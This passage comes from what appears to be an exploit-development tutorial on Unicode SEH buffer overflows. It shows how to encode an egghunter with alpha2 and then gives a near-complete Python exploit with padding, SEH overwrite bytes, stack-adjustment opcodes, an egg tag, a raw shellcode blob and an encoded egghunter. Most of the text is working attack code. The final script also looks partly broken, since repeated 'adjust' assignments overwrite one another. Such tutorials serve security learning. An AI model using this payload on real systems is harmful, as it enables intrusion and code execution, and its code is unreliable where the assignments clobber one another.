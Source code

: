 

The next step we will need to do is encode this egghunter into Unicode. To do this we take the code from above and paste it into a new file:



> #!/usr/bin/python
> print ("\\x66\\x81\\xCA\\xFF\\x0F\\x42\\x52\\x6A\\x02\\x58\\xCD\\x2E\\x3C\\x05\\x5A\\x74\\xEF\\xB8\\x77\\x30\\x30\\x74\\x8B\\xFA\\xAF\\x75\\xEA\\xAF\\x75\\xE7\\xFF\\xE7")


Run that script and redirect the output to a file called egghunter.raw. Then do:

gcc alpha2.c -o alpha2

and do:

./alpha2 --unicode --uppercase eax < egghunter.raw > egghunter

The send egghunter over to your host PC and add it into the exploit.

Finally we add the tag to our exploit, making the final exploit look like this (and yes i forgot to take out junk2 in the last one in case your wondering why this one looks a little different ;) ):


> #!/usr/bin/python
> junk  = "\\x41" \* (4078-(len(tag + shellcode))
> nseh = "\\x61\\x62"
> seh = "\\xeb\\x46" \* 2
> adjust = "\\x53" # PUSH EBX
> adjust = "\\x62" # NOP padding to absorb the \\x00's that will be added
>                          # after the \\x53 instruction in memory
> adjust = "\\x58" # POP EAX  to make eax point to the beginning of our shellcode.
> adjust = "\\x62" # NOP padding
> adjust = "\\x50" # PUSH EAX to push eax to the stack...
> adjust = "\\x62" # NOP padding
> adjust = "\\xc3" # RETN to go to the beginning of the shellcode....
> buffer = "\\x62" \* 12
> tag = "w00tw00t"
> shellcode = (
> "\\xdb\\xc2\\xd9\\x74\\x24\\xf4\\xbf\\xe6\\xcb\\xb6\\xa3\\x5d\\x33\\xc9\\xb1"
> "\\x4b\\x31\\x7d\\x19\\x83\\xc5\\x04\\x03\\x7d\\x15\\x04\\x3e\\x4a\\x4b\\x41"
> "\\xc1\\xb3\\x8c\\x31\\x4b\\x56\\xbd\\x63\\x2f\\x12\\xec\\xb3\\x3b\\x76\\x1d"
> "\\x38\\x69\\x63\\x96\\x4c\\xa6\\x84\\x1f\\xfa\\x90\\xab\\xa0\\xcb\\x1c\\x67"
> "\\x62\\x4a\\xe1\\x7a\\xb7\\xac\\xd8\\xb4\\xca\\xad\\x1d\\xa8\\x25\\xff\\xf6"
> "\\xa6\\x94\\xef\\x73\\xfa\\x24\\x0e\\x54\\x70\\x14\\x68\\xd1\\x47\\xe1\\xc2"
> "\\xd8\\x97\\x5a\\x59\\x92\\x0f\\xd0\\x05\\x03\\x31\\x35\\x56\\x7f\\x78\\x32"
> "\\xac\\x0b\\x7b\\x92\\xfd\\xf4\\x4d\\xda\\x51\\xcb\\x61\\xd7\\xa8\\x0b\\x45"
> "\\x08\\xdf\\x67\\xb5\\xb5\\xe7\\xb3\\xc7\\x61\\x62\\x26\\x6f\\xe1\\xd4\\x82"
> "\\x91\\x26\\x82\\x41\\x9d\\x83\\xc1\\x0e\\x82\\x12\\x06\\x25\\xbe\\x9f\\xa9"
> "\\xea\\x36\\xdb\\x8d\\x2e\\x12\\xbf\\xac\\x77\\xfe\\x6e\\xd1\\x68\\xa6\\xcf"
> "\\x77\\xe2\\x45\\x1b\\x01\\xa9\\x01\\xe8\\x3f\\x52\\xd2\\x66\\x48\\x21\\xe0"
> "\\x29\\xe2\\xad\\x48\\xa1\\x2c\\x29\\xae\\x98\\x88\\xa5\\x51\\x23\\xe8\\xec"
> "\\x95\\x77\\xb8\\x86\\x3c\\xf8\\x53\\x57\\xc0\\x2d\\xf3\\x07\\x6e\\x9e\\xb3"
> "\\xf7\\xce\\x4e\\x5b\\x12\\xc1\\xb1\\x7b\\x1d\\x0b\\xda\\x4a\\x39\\xe7\\x8d"
> "\\xae\\xbd\\x19\\x12\\x27\\x5b\\x73\\xba\\x61\\xf3\\xec\\x78\\x56\\xcc\\x8b"
> "\\x83\\xbd\\x60\\x03\\x14\\x8a\\x6e\\x93\\x1b\\x0b\\xa5\\xb7\\xb0\\xa4\\x2e"
> "\\x4c\\xdb\\x71\\x4e\\x53\\xf6\\xd2\\x07\\xc4\\x8c\\xb2\\x6a\\x74\\x90\\x9f"
> "\\x1f\\x76\\x04\\x1b\\xb6\\x21\\xb0\\x21\\xef\\x06\\x1f\\xda\\xda\\x1c\\x96"
> "\\x4e\\xa5\\x4a\\xd7\\x9e\\x25\\x8b\\x81\\xf4\\x25\\xe3\\x75\\xac\\x75\\x16"
> "\\x7a\\x79\\xea\\x8b\\xef\\x81\\x5b\\x7f\\xa7\\xe9\\x61\\xa6\\x8f\\xb6\\x9a"
> "\\x8d\\x11\\x8b\\x4c\\xe8\\x97\\xfd\\xfa\\x18\\x54"
> )
> egghunter =
> (
> "PPYAIAIAIAIAQATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBC6SQGZKOLO0B0RQZOSR88MNNOLKUPZSDJO6XT7NPNP3DTKKJ6OD5JJ6OBUK7KOYWLJA"
> )
